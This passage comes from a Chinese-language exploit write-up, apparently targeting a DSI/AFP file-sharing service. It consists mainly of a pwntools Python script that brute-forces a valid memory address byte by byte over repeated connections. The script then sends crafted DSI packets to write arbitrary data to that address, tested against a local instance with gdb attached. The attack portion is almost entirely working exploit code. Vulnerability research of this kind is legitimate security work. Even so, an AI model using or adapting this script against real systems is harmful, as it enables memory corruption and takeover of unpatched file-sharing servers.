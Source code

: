 #### 任意地址写

所以先在本地搞一下任意地址写，直接测试对爆破出来的合法地址写：

```python
from pwn import *
context(endian='little')

ip   = "127.0.0.1"
port = 5566

def gen_dsi(data):
    dsi  = b'\x00\x04\x00\x01'
    dsi += p32(0)
    dsi += p32(len(data),endian='big')
    dsi += p32(0)
    dsi += data
    return dsi

def aaw(io,addr,data):
    payload  = b'\x01'+ p8(0x18)+ b'a'*0x10 + p64(addr)
    io.send(gen_dsi(payload))
    io.recv()
    io.send(gen_dsi(data))

def boom():
    leak = b''
    for j in range(8):
        for i in range(256):
            if(j>1 and j<6): i = 255 - i
            io = remote(ip,port)
            payload  = b'\x01'+ p8(0x11+j)+ b'a'*0x10 + leak + p8(i)
            io.send(gen_dsi(payload))
            try:
                a = io.recv()
                leak += p8(i)
                log.success(str(hex(i)))
                io.close()
                break
            except:
                io.close()
    return u64(leak)

leak_addr = boom()
log.success(hex(leak_addr))

input()
io = remote(ip,port)
aaw(io,leak_addr,b"xuanxuan")
```

当打印合法地址时，此时会由于input卡住，留出gdb的时间：
